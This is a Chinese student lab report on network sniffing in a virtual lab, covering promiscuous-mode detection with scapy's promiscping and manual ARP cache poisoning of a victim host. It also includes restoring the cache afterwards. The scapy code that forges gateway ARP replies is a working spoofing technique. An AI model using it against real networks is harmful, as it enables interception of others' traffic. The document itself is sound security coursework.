

# 实验四之网络监听

## 网络拓扑


- 网关：Debian10-gateway

  ​			172.16.222.1/enp0s10

  ​			08:00:27:8e:47:84

- 攻击者：kali

  ​                172.16.222.148/eth0

  ​                08:00:27:57:42:4a

- 被攻击者：kali-victim

  ​                    172.16.222.144/eth0

  ​                    08:00:27:e8:a3:9a

## 实验环境

- 在攻击者主机上安装scapy：

  ```
  sudo apt update && sudo apt install python3 python3-pip
  
  pip3 install scapy[complete]
  ```

## 实验一 检测局域网中的异常终端

- 

```bash
# 在受害者主机上检查网卡的「混杂模式」是否启用:
# 在混杂模式下，网卡并不检查目的 MAC 地址，对所有的数据包都来者不拒。
ip link show eth0 

# 2: eth0: <BROADCAST,MULTICAST,UP,LOWER_UP> mtu 1500 #qdisc pfifo_fast state UP mode DEFAULT group default qlen #1000
#    link/ether 08:00:27:e8:a3:9a brd ff:ff:ff:ff:ff:ff
```

- ```bash
  # 在攻击者主机上开启 scapy
  # 注意需要sudo权限否则无法使用后面的“promiscping”
  sudo scapy
  ```

- ```bash
  # 在 scapy 的交互式终端输入以下代码回车执行
  # 改函数的作用为查看混杂模式主机而发送ARP请求
  pkt = promiscping("172.16.222.144")
  
  # Begin emission:
  # Finished sending 1 packets.
  
  # Received 0 packets, got 0 answers, remaining 1 packets
  
  # 也就是说，当目标主机的混杂模式关闭时，攻击者使用“promiscping”构造的数据包得不到answer，无法侦测到目标主机。
  ```

- ```bash
  # 回到受害者主机上开启网卡的『混杂模式』
  # 注意上述输出结果里应该没有出现 PROMISC 字符串
  # 手动开启该网卡的「混杂模式」
  
  sudo ip link set eth0 promisc on
  ```

- 此时scapy输出如下图，：

- ```bash
  # 此时会发现输出结果里多出来了 PROMISC 
  # 在被攻击者主机：
  ip link show eth0
  
  # 2: eth0: <BROADCAST,MULTICAST,PROMISC,UP,LOWER_UP> mtu 1500 qdisc pfifo_fast state UP mode DEFAULT group default qlen 1000
  #    link/ether 08:00:27:e8:a3:9a brd ff:ff:ff:ff:ff:ff
  # 说明混杂模式确实已经打开了
  ```

- 对比前后两次“promiscping”的输出，可知，在正常模式下，只接收目的 MAC 地址的自己的数据包，其他将一律丢弃；而在混杂模式下，网卡并不检查目的 MAC 地址，对所有的数据包都来者不拒。后者就是被动监听。

- ```bash
  # 在受害者主机上
  # 手动关闭该网卡的「混杂模式」
  sudo ip link set eth0 promisc off
  ```

## 实验二 手工单步“毒化”目标主机的 ARP 缓存

- 以下代码在攻击者主机上的 `scapy` 交互式终端完成。

  ```bash
  # 获取当前局域网的网关 MAC 地址
  # 构造一个 ARP 请求
  arpbroadcast = Ether(dst="ff:ff:ff:ff:ff:ff")/ARP(op=1, pdst="172.16.222.1")
  
  # 查看构造好的 ARP 请求报文详情
  arpbroadcast.show()
  
  ###[ Ethernet ]### 
    dst= ff:ff:ff:ff:ff:ff
    src= 08:00:27:57:42:4a
    type= ARP
  ###[ ARP ]### 
       hwtype= 0x1
       ptype= IPv4
       hwlen= None
       plen= None
       op= who-has
       hwsrc= 08:00:27:57:42:4a
       psrc= 172.16.222.148
       hwdst= 00:00:00:00:00:00
       pdst= 172.16.222.1
  
  
  # 发送这个 ARP 广播请求
  recved = srp(arpbroadcast, timeout=2)
  # Begin emission:
  # Finished sending 1 packets.
  # *
  # Received 1 packets, got 1 answers, remaining 0 packets
  
  # 网关 MAC 地址如下
  gw_mac = recved[0][0][1].hwsrc
  
  # 伪造网关的 ARP 响应包
  # 准备发送给受害者主机 172.16.222.144
  # ARP 响应的目的 MAC 地址设置为攻击者主机的 MAC 地址
  arpspoofed=ARP(op=2, psrc="172.16.222.1", pdst="172.16.222.144", hwdst="08:00:27:57:42:4a")
  
  # 发送上述伪造的 ARP 响应数据包到受害者主机
  sendp(arpspoofed)
  # .
  # Sent 1 packets.
  ```

- 此时在受害者主机上查看 ARP 缓存会发现网关的 MAC 地址已被「替换」为攻击者主机的 MAC 地址:

  ```
  172.16.222.1 dev eth0 lladdr 08:00:27:8e:47:84 STALE
  172.16.222.148 dev eth0 lladdr 08:00:27:57:42:4a STALE
  ```

  完全得不到想要的结果，网关和攻击者主机所以对应的MAC地址都是正确的。

- 搜索资料以后，将上面发送报文的sendp函数改为send函数，得到下图，说明arp投毒成功：

  

- 回到攻击者主机上的 scapy 交互式终端继续执行命令。

- ```python
  # 恢复受害者主机的 ARP 缓存记录
  ## 伪装网关给受害者发送 ARP 响应
  restorepkt1 = ARP(op=2, psrc="172.16.222.1", hwsrc="08:00:27:8e:47:84", pdst="172.16.222.144", hwdst="08:00:27:e8:a3:9a")
  send(restorepkt1, count=100, inter=0.2)
  ```

- 此时在受害者主机上准备“刷新”网关 ARP 记录。

- ```bash
  ## 在受害者主机上尝试 ping 网关
  ping 172.16.222.1
  ## 静候几秒 ARP 缓存刷新成功，退出 ping
  ## 查看受害者主机上 ARP 缓存，已恢复正常的网关 ARP 记录
  
  ip neigh
  # 172.16.222.1 dev eth0 lladdr 08:00:27:8e:47:84 REACHABLE
  # 172.16.222.148 dev eth0 lladdr 08:00:27:57:42:4a STALE
  ```

## 参考资料

- [课本](https://c4pr1c3.github.io/cuc-ns/chap0x04/exp.html)

- [send与sendp--scapy官方文档](https://scapy.readthedocs.io/en/latest/usage.html)

  